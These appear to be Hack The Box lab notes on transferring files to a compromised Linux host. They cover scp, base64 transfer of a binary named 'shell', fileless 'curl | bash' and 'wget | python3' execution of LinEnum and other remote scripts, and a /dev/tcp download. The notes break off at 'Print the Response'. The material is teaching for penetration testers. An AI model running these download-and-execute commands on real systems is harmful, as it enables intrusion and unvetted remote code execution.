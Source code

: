 ## Using SCP

```rb
shakir0x00@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

## Using Base64



```rb
shakir0x00@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```rb
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```


## Fileless Attacks Using Linux

##### CURL 
```shell-session
shakir0x00@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

WGET

```shell-session
shakir0x00@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```



## Download with Bash (/dev/tcp)

#### Connect to the Target Webserver

```shell
shakir0x00@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```

#### HTTP GET Request

```shell
shakir0x00@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response
